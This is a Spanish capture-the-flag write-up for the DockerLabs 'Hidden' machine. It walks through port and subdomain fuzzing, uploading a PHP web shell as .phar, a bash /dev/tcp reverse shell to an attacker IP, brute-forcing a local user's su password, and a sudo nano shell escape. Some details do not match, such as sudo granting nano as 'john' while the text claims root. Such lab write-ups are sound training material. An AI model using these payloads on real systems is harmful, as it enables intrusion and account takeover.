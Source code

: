 # Máquina Hidden

---------------------

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://hidden.lab/
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: localhost
```

Entramos a la web para inspeccionar la página web. Como solo está abierto el puerto 80, sabemos que la intrusión va a ser vía web.

Al poner la IP en la url, vemos que no carga la página e intenta cargar "**hidden.lab**", por lo que lo añadiremos a nuestro **/etc/hosts**.

```shell
sudo nano /etc/hosts
```

Añadimos: "172.17.0.2 hidden.lab"

Ya podemos ver la web:

![Pasted image 20240416224904](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ac385b73-00c6-4a1a-b382-b5f69c5182d4)

Aplicamos **fuzzing** por ejemplo con gobuster, para encontrar archivos y directorios. Encontramos directorios como **/mail** o **/js** pero tras inspeccionarlos no hay nada interesante.
Por lo que procedemos a enumerar posibles subdominios, tarea para la cual podemos utilizar también gobuster:

```shell
gobuster vhost -u http://hidden.lab/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 20 | grep -v "302"
----------------------------------------------------------------------------------------------
Found: dev.hidden.lab (Status: 200) [Size: 1653]    
```

Encontramos **dev.hidden.lab**, lo tendremos que añadir también al **/etc/hosts** y lo abriremos en el navegador.

![Pasted image 20240416225128](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/5a938e51-5cd2-4b55-b802-1926019929c7)

Nos encontramos ante un campo de subida de archivos. Es posible que tengamos que abusar de este para ganar acceso a la máquina.

Aplicamos **Fuzzing** sobre este nuevo subdominio con **gobuster**.

```shell
gobuster dir -u http://dev.hidden.lab/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
-----------------------------------------------------------------------------------------------
/uploads              (Status: 301) [Size: 318] [--> http://dev.hidden.lab/uploads/]
/index.html           (Status: 200) [Size: 1653]                                    
/upload.php           (Status: 200) [Size: 74]                                      
/server-status        (Status: 403) [Size: 279]    
```

Encontramos un directorio **/uploads** que será interesante de cara a subir un archivo malicioso donde lo podamos tener ubicado.

------------------
## Explotación

Trataremos de subir un archivo **cmd.php** con la sintaxis típica para conseguir un **RCE** (Remote Code Execution) en la web.

```php
<?php
	system($_GET['cmd']);
?>
```

Lo intentamos subir pero nos dice que no se permite subir archivos con extensión **.php**.

Si probamos con otras extensiones válidas también para php. Como pueden ser .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, etc.

He ido probando varias, y deja subirlas todas, pero no todas son interpretadas. Finalmente tras probar varias veces, conseguimos que nos interprete el archivo **cmd.phar**.

![Pasted image 20240416230402](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1a2b542c-8d4b-4be2-a9e4-072e89773d4f)

Nos enviamos la reverse shell, poniéndonos en escucha con **netcat** en la máquina atacante:

```shell
sudo nc -nlvp 443
```

Nos la enviamos desde la url con:

```shell
http://dev.hidden.lab/uploads/cmd.phar?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.40/443 0>%261"
```

Estamos dentro !

------------
### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------
## Escalada de privilegios

Revisamos capabilities, archivos SUID, etc. Y no hemos encontrado nada, por lo que vamos a transferirnos un script para hacer fuerza bruta hacia los usuarios del sistema desde la propia máquina. Nos transferiremos el script -> [Script de fuerza bruta](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)
Y también el diccionario **rockyou**.

**Transferir los archivos a la máquina víctima**:
La máquina no cuenta con **wget** ni con **curl**. Una forma de transferirlos es en el campo de subida de archivos de la web que hemos vulnerado, en el dominio **dev.hidden.lab**.
Para el script no hay problema, lo subimos y ya lo tenemos en el directorio **uploads** dentro de la máquina.
Para el diccionario **rockyou**, como es enorme, me he transferido las 200 primeras líneas a un **.txt** y ha sido ese el que he subido.

Vemos que usuarios hay en el sistema:

```shell
cat /etc/passwd
```

Vemos 3 usuarios, **john**, **cafetero** y **bobby**
Nos situamos en el directorio **/uploads** donde tenemos el script de fuerza bruta y el diccionario y lo ejecutamos:

```shell
chmod +x Linux-Su-Force.sh
./Linux-Su-Force.sh cafetero rockyou2.txt 
------------------------------------------------
Contraseña encontrada para el usuario cafetero: 123123
```

Tras probar a hacer fuerza bruta contra el usuario **cafetero**, encontramos sus credenciales.
Tenemos la contraseña **123123** con la que podemos migrar al usuario **cafetero**

Hacemos **sudo -l** para ver si podemos ejecutar algo como root.

```shell
sudo -l
---------------------
User cafetero may run the following commands on 8a54f4a7597f:
    (john) NOPASSWD: /usr/bin/nano
```

Podemos ejecutar **nano**. Esto es crítico y podemos abusar de este para ejecutar una consola como el usuario root. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo nano
^R^X (Ctrl+R y Ctrl+X)
reset; sh 1>&0 2>&0
```

![[Pasted image 20240415220430.png]]

Podemos hacer un **clear** para quitar el **nano** y ver bien la consola:

```shell
clear
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en la máquina !
